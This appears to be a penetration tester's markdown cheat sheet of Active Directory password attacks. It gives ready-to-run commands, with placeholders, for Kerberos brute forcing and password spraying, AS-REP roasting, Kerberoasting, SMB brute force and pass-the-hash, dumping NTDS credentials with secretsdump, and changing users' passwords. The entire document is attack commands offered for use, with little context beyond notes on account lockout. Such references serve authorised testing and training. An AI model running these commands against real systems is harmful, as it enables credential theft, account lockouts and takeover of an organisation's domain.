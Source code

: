 # Passwords
## Kerberos
Brute force passwords - WILL LOCKOUT USER:
```bash
kerbrute bruteuser --dc <IP> -d <DOMAIN> <PASSLIST> '<USER>'
```

Check a password for userlist:
```bash
kerbrute passwordspray --dc <IP> -d <DOMAIN> -v <USERLIST> '<PASS>'
```

AS-REP (AS-REP Roasting):
```bash
impacket-GetNPUsers -dc-ip <IP> '<DOMAIN>/' -usersfile <USERLIST>
impacket-GetNPUsers -dc-ip <IP> '<DOMAIN>/<USER>:<PASS>' -request
crackmapexec ldap <IP> --kdcHost <IP> -u '<USER>' -p '<PASS>' --asreproast <OUTPUT>
```

TGS-REP (Kerberoasting):
```bash
impacket-GetUserSPNs -dc-ip <IP> '<DOMAIN>/<USER>:<PASS>' -request
crackmapexec ldap <IP> --kdcHost <IP> -u '<USER>' -p '<PASS>' --kerberoasting <OUTPUT>
```

## SMB
Brute force passwords - WILL LOCKOUT USER:
```bash
crackmapexec smb <IP> -u '<USER>' -p <PASSLIST>
crackmapexec smb <IP> -u '<USER>' -H <HASHES>
```

Check password for users in list:
```bash
crackmapexec smb <IP> -u <USERLIST> -p '<PASS>'
```

If you have admin rights. Dump NTDS file:
```bash
impacket-secretsdump '<DOMAIN>/<USER>:<PASS>@<IP>'
```

Change password user:
```bash
smbpasswd -U '<USER>' -r <DC_IP>
```